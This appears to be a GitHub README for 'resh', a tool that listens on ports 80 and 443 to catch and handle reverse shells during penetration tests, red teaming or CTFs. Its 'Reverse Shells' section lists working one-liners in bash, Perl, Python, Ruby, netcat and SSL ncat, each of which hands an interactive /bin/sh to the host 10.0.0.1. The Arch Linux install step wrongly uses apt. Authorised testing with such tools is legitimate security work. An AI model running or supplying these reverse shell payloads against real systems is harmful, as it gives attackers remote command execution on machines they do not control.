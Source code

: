 # resh
### REverse Shell Handler
A simple and minimalistic post-exploitation tool to handle and interact with reverse shells. The server listens on two ports, default 80 and 443. One for normal non-encrypted and one for SSL encrypted shells. This is to facilitate penetration tests, red teaming exercises or CTFs and handle multiple reverse shells.

### Installing
#### Dependencies
##### Debian/Ubuntu/Kali
```
$ apt install libssl-dev libreadline-dev
```
##### Arch Linux/Manjaro
```
$ apt install openssl readline
```
#### Downloading and compiling
```
$ git clone https://github.com/jlhk/resh
$ cd resh
$ make cert # Generating SSL certificates
$ make      # Compiling
```
### Reverse Shells
```
# Bash
bash -i >& /dev/tcp/10.0.0.1/80 0>&1

# Perl
perl -e 'use Socket;$i="10.0.0.1";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
nc -e /bin/sh 10.0.0.1 80

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 80 >/tmp/f

# SSL
ncat --ssl -e /bin/sh 10.0.0.1 443

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|ncat --ssl 10.0.0.1 443 >/tmp/f
```
### Usage
```
usage: ./resh [-hv] [-l port] [-L port] [-i] [-c cert] [-k key]

-l port         Listen port for no encryption. Default 80
-L port         Listen port for SSL encrypted traffic. Default 443
-k              SSL private key to use. Default ./certs/srv.key
-c              SSL cert to use. Default ./certs/srv.pem

Example:
        ./resh -c certs/srv.pem -k certs/srv.key
```
